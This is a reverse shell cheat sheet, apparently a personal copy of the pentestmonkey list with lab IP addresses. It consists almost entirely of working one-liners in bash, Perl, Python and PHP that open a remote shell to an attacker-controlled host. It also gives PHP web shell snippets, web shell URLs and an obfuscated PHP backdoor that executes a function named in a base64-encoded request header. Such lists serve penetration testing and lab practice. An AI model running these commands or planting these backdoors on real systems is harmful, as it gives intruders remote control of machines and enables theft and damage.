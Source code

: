 Reverse Shell Cheat Sheet
=======================================


References
<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

# Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
    
    /bin/bash -l > /dev/tcp/10.10.14.96/8081 0<&1 2>&1
    
    /bin/bash -l > /dev/tcp/10.10.14.17/8081 0<&1 2>&1
    
    /usr/bin/bash -l > /dev/tcp/10.10.14.17/8081 0<&1 2>&1


    
# PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
This was tested under Linux / Python 2.7:

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    
Python 3
    
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.109",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>
    
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"10.10.14.21"/443 0>&1'");?>
    http://10.10.14.21/shell.php
    http://10.10.14.21/webshell.php
    http://10.10.14.21/webshell.php?cmd=whoami
    <?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
    